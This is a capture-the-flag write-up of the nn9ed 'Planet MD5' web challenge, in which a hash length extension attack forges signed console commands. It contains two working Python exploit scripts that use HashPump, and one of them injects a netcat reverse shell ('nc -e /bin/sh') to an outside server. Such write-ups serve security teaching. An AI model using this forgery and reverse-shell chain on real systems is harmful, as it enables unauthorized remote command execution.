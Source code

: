 ```yaml
---
layout: post
title: Planet MD5 - nn9ed
author: devploit
item_image: https://i.imgur.com/Ao2pJ8H.png
tags: ctf nn9ed navajanegra crypto web
---
```


### 0x01 Challenge:

**Level:** Medium

**Description:**

>**Planet MD5**
>
>Escape the sandbox and read the flag.
>http://planet-md5.nn9ed.ka0labs.org.
>author: ka0labs

### 0x02 Write-up:

We start by visiting the URL provided.

![Branching](https://i.imgur.com/Ao2pJ8H.png)

As we can see, we have access to a console, which seems to only accept the execution of three commands:

```
telnetd> help
Help:
 - ls
 - id
 - unametelnetd> help
```

If we check the request made when executing a command, we can see that each one has an associated signature.

![Branching](https://i.imgur.com/czT5ETO.png)

After hours of searching for exploitation options, hash break attempts and so on, I found this vulnerability.

--

**Hash Lenght Extension Attack**

In cryptography and computer security, a length extension attack is a type of attack where an attacker can use Hash(message1) and the length of message1 to calculate Hash(message1 ‖ message2) for an attacker-controlled message2, without needing to know the content of message1. Algorithms like MD5, SHA-1, and SHA-2 that are based on the Merkle–Damgård construction are susceptible to this kind of attack.

--

It completely matched what we needed to do, so I looked for some tool and set about it. In this case I used [Hashpump](https://github.com/bwall/HashPump).

The first use we are going to give the tool is to achieve the key length. For this case I did the following script:

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '|ls' -k "

for x in range(1, 60):
    # Append the key length to the command and get the output from execution
    ncmd = cmd + str(x)
    out = check_output(ncmd, shell=True).split("\n")

    newParams = out[1].strip()
    newSig = out[0].strip()

    # URL encode the padding
    m = re.search(r"id(.+?)ls", newParams)
    items = m.group(1).split('\\')
    for item in items:
        newParams = newParams.replace('\\x'+item, '%'+item)

    viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

    r = requests.get(viewUrl)
    if r.text.strip() == 'index.php':
        print 'New URL params: ' + newParams
        print 'New full URL:   ' + viewUrl
        print 'Key length:     ' + str(x) + ' -> ' + r.text.strip()
```

The use of it is to let us know when we have managed to execute the 'ls' command attached to the 'id' command itself. So when it finds an 'index.php' file it notifies us with the complete URL and the key length as we see in the following image.

![Branching](https://i.imgur.com/8rmdyhj.png)

Visiting the full URL we see the 'ls' command execution achieved.

![Branching](https://i.imgur.com/bodn1pZ.png)

Seeing that it is vulnerable and knowing the length of the key, I modify the script to throw a reverse shell on a server.

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '| nc -e /bin/sh $SERVER_IP 7778' -k "

# Append the key length to the command and get the output from execution
x = 15
ncmd = cmd + str(x)
out = check_output(ncmd, shell=True).split("\n")

newParams = out[1].strip()
newSig = out[0].strip()

# URL encode the padding
m = re.search(r"id(.+?)7778", newParams)
items = m.group(1).split('\\')
for item in items:
    newParams = newParams.replace('\\x'+item, '%'+item)

viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

r = requests.get(viewUrl)
print 'New URL params: ' + newParams
print 'New full URL:   ' + viewUrl
print 'Key length:     ' + str(x)
```

We execute it, we visit the complete URL that it gives us and we verify that we receive reverse shell on our server.

![Branching](https://i.imgur.com/2nmf6uS.png)

![Branching](https://i.imgur.com/pbgwWff.png)

Finally we have shell on the server. It would only be to find the flag and that's it.

![Branching](https://i.imgur.com/waZW6iu.png)

`Flag: nn9ed{j3t_ext3nd3r_4d}`
